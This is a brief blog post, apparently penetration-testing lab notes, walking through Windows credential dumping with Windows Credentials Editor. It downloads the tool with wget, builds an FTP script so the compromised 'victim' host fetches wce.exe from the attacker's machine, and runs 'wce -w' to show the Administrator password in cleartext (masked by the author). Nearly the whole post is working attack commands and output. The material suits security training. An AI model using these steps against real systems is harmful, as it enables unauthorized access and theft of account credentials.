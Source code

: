 ```yaml
---
published: true
layout: post
title: WCE post exploitation
---
```





Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

**Victim**:  With ftp server running on attacking box.  Upload wce.exe to victim
    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get wce.exe>> ftp.txt
    echo bye>> ftp.txt

**Victim**:  Execute wce.  Administrator password displayed in the clear.  (real password masked just in case any potential oscp students are actually reading this)

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:<password>
    RALPH$\THINC.LOCAL:
